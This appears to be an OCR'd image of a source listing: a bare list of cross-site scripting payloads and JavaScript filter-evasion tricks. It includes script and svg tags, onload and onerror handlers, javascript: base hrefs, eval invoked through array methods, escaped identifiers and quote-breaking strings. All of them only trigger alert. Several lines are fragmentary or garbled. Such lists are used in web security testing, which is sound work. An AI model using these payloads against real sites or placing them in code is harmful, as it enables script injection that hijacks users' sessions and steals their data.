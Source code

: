 ['alert(1)'].some(eval)
0[\u50002+'l'](\u50003)
alert(1)['*(&£%(*&£^(']
['alert(1)'].every(eval)
<IMG SRC="mocha:[code]">
  <xss:xss>XSS</xss:xss>
alert(a.source)</SCRIPT>
14) <svg/onload=alert(1)
e=self[490837[t+s](32)];
and a fun huge button :)
x[/\\/]=!/\\/?/\\/:alert
$\u5001=/\u00/[-$\u5003]
new RegExp(/a/,alert(1))
typeof AnYThing^alert(1)
SyntaxError[a=#1=alert];
a=0[eval[-6]](alert[-6])
onmouseover=alert(1)//" 
';';;!--";<;XSS>;=&;{()}
([],[].sort)() == window 
'); alert('xss'); var x='
<base href='javascript:'>
['alert(1)'].filter(eval)
['alert(1)',1].sort(eval)
\u5001_[\u5002_](\u5003_)
x=[/&/,alert,/&/][1],x(1)
top.* =alert,self['*'](1)
x=[1,2,3].input=alert,4,5
for (i in array) alert(i)
a+'lert'=='alert'? Sure! 
alert(1)/).concat(/ /))()
<img src='alert("w00f");'>
\u002f**/alert(1)\u002f**/
<A HREF="//google">XSS</A>
window.alert("Bonjour !");
<BODY ONLOAD=alert('XSS')>
<script>alert(1);</script>
<frameset onload=alert(1)>
<BODY ONLOAD=alert(’XSS’)>
alert(<a>alert(false)</a>)
['alert(1)'].forEach(eval)
<img onerror=alert(/1/) / >
 
['alert(1)',1].reduce(eval)
x=[].reverse,x() === window
0?1:!1?0:0?1:1/alert(1)?1:1
-Math.abs[(+alert(/boo/))] 
window.top.window.alert(4);
19) <svg><script ?>alert(1)
<BR SIZE="&{alert('XSS')}">
"><script>alert(0)</script>
j=String((/j/+[])[1]+y+i+o);
document.designMode=/On/[-1]
%22%2Balert(%27XSS%27)%2B%22
delete~[a=alert]/delete a(1)
alternative to toString()...
<;IMG SRC=";mocha:[code]";>;
0.[!0?/eval/[~0]:$](name).@_
&#54280;[&#21477;](&#22924;)
0[/eval/[-$\u5003]]($\u5002)
<body onLoad="alert('XSS');"
<SCRIPT>alert('XSS')</SCRIPT>
({}=[].concat)()[0] == window